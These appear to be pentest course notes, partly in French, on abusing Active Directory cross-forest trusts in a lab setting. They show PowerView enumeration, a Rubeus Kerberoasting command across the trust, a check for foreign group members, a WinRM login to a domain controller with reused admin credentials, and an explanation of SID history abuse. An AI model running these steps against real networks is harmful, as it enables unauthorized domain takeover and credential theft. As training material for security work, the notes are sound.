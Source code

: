 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

***

### <mark style="color:red;">Cross-Forest Kerberoasting</mark>

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

<mark style="color:green;">**Enumerating Accounts for Associated SPNs Using Get-DomainUser**</mark>

```powershell-session
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

<mark style="color:green;">**Enumerating the mssqlsvc Account**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```
{% endcode %}

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

<mark style="color:green;">**Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
{% endcode %}

***

### <mark style="color:red;">Admin Password Re-Use & Group Membership</mark>

Dans certains environnements où deux forêts sont liées par une confiance bidirectionnelle gérée par les mêmes administrateurs, si l’on parvient à compromettre le Domaine A en récupérant les mots de passe (en clair ou sous forme de hachages NTLM) d’un compte administrateur (qu’il s’agisse du compte intégré ou d’un compte membre des groupes Domain Admins/Enterprise Admins), et que le Domaine B possède un compte hautement privilégié portant le même nom, alors une réutilisation de mot de passe peut permettre d’obtenir des droits administratifs sur le Domaine B.\
De plus, il arrive que des utilisateurs ou administrateurs du Domaine A soient ajoutés aux groupes du Domaine B (seuls les Domain Local Groups acceptent des comptes externes). Ainsi, si vous compromettez un admin du Domaine A présent dans le groupe Administrators du Domaine B, vous obtiendrez un contrôle complet sur le Domaine B.\
Pour identifier ces appartenances « étrangères », la fonction PowerView **Get-DomainForeignGroupMember** peut être utilisée, comme dans l'exemple appliqué sur le domaine FREIGHTLOGISTICS.LOCAL.

<mark style="color:green;">**Using Get-DomainForeignGroupMember**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```
{% endcode %}

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

<mark style="color:orange;">**Accessing DC03 Using Enter-PSSession**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```
{% endcode %}

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

### <mark style="color:red;">SID History Abuse - Cross Forest</mark>

L'historique des SID peut également être abusé à travers une relation d'approbation entre forêts. Si un utilisateur est migré d'une forêt à une autre et que le filtrage des SID n'est pas activé, il devient possible d'ajouter un SID provenant de l'autre forêt, et ce SID sera ajouté au jeton de l'utilisateur lors de l'authentification à travers l'approbation. Si le SID d'un compte disposant de privilèges administratifs dans la Forêt A est ajouté à l'attribut d'historique des SID d'un compte dans la Forêt B, et en supposant qu'ils puissent s'authentifier entre les forêts, alors ce compte disposera de privilèges administratifs lorsqu'il accède aux ressources de la forêt partenaire.

Dans le diagramme ci-dessous, nous pouvons voir un exemple de l'utilisateur **jjones** migré du domaine **INLANEFREIGHT.LOCAL** vers le domaine **CORP.LOCAL** dans une forêt différente. Si le filtrage des SID n'est pas activé lors de cette migration et que l'utilisateur possède des privilèges administratifs (ou tout autre type de droits intéressants tels que des entrées ACE, un accès aux partages, etc.) dans le domaine **INLANEFREIGHT.LOCAL**, alors il conservera ses droits d'administration/d'accès dans **INLANEFREIGHT.LOCAL** tout en étant membre du nouveau domaine **CORP.LOCAL** dans la seconde forêt.

![image](https://academy.hackthebox.com/storage/modules/143/sid-history.png)
